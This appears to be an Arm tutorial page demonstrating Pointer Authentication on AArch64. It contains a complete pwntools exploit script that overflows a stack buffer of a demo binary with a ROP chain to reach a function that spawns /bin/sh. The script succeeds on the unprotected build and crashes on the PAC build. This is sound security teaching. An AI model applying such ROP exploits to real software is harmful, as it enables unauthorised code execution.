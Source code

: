 ```yaml
---
# User change
title: "Exploit applications built without Pointer Authentication instructions"

weight: 3 # 1 is first, 2 is second, etc.

# Do not modify
layout: "learningpathall"
---
```



## Prerequisites

Install python dependencies and `pwntools` on your c7g EC2 instance. We will use this exploit development library to demonstrate how you can exploit the application we built in the previous section without pointer authentication.
 
```console
sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev -y
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

## Write the python script to exploit the application

Use a text editor, such as nano or vim, to create the file `exploit.py` with a script to try to exploit the application.

```console
#!/usr/bin/env python3

from pwn import *

context(os='linux', arch='aarch64')

binary = ELF('./main_nopac')

rop = ROP(binary)

padding = b'A' * 24

rop.call(binary.symbols['func2']) # return to func2

print(rop.gadgets)
log.info("ROP chain:\n" + rop.dump())

print(rop.chain())
data = padding + rop.chain()
print(data)
data = data.replace(b'\0',b'')

print(data)
r = process(['./main_nopac', data])

r.interactive()
```

## Run exploit.py on `main_nopac`

Run the script which exploits `main_nopac`

```console
chmod +x ./exploit.py
./exploit.py
```

You will the output below:

```console
[*] '/home/ubuntu/pac-test/main_nopac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './main_nopac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006f8 0x4006f8()
b'\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@'
[+] Starting local process './main_nopac': pid 48515
[*] Switching to interactive mode
Hello World!
$
```

You will be at an interactive shell prompt when you execute this script. You can use the interactive shell and run any commands. You were able to successfully exploit the flow control execution of the program and jump to address `0x4006f8` which maps to entry address of `func2` in `main.c`. `func2` invokes the interactive shell `/bin/sh`. With a legitimate flow of execution, `func2` would never be invoked and you would not be able to get to an interactive shell prompt.

Use Control-C to exit the application.

### Run exploit.py on `main_pac`

This time we will use the same exploit.py script but run it on the `main_pac` application which was built with PAC instructions for enhanced security.

Replace the arguments passed in the elf and process commands with `main_pac` using sed. This saves a new file `exploit_pac.py`

```console
sed 's/main_nopac/main_pac/g' exploit.py > exploit_pac.py
```

Now execute `exploit_pac.py`

```console
chmod +x exploit_pac.py
./exploit_pac.py
```

This time you will not be able to use the interactive shell prompt and get a SIGSEV instead. As the signed PAC instruction could not be authenticated we were not able to exploit the application.

```console
[*] '/home/ubuntu/pac-test/main_pac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './main_pac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006fc 0x4006fc()
b'\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@'
[+] Starting local process './main_pac': pid 48554
[*] Switching to interactive mode
Hello World!
[*] Got EOF while reading in interactive
$
[*] Process './main_pac' stopped with exit code -11 (SIGSEGV) (pid 48554)
[*] Got EOF while sending in interactive
```

This example demonstrates how Pointer Authentication provides some protection against attacks.
